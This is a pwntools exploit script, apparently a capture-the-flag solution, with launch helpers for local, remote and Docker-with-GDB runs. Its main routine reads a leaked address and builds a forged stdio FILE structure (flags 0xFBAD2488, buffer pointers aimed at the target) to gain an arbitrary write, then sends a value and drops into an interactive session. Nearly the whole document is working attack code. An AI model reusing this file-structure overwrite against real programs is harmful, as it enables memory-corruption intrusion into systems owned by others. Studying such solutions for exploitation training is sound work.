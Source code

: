 ```python
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(
            int(pid),
            gdbscript=gdbscript
            + f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe",
            exe=exe.path,
        )
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = """
brva 0x000000000000124E

c
"""

p = start()

# ==================== EXPLOIT ====================


def exploit():
    p.recvuntil(b"my aura: ")
    target = int(p.recvline()[:-1], 16)
    info(f"target: {hex(target)}")
    payload = p64(0xFBAD2488)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(target)
    payload += p64(target + 9)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)  # stdin
    input()
    sla(b"ur aura? ", payload)
    input()
    sl(p64(1) + b"\x00")

    p.interactive()


if __name__ == "__main__":
    exploit()
```
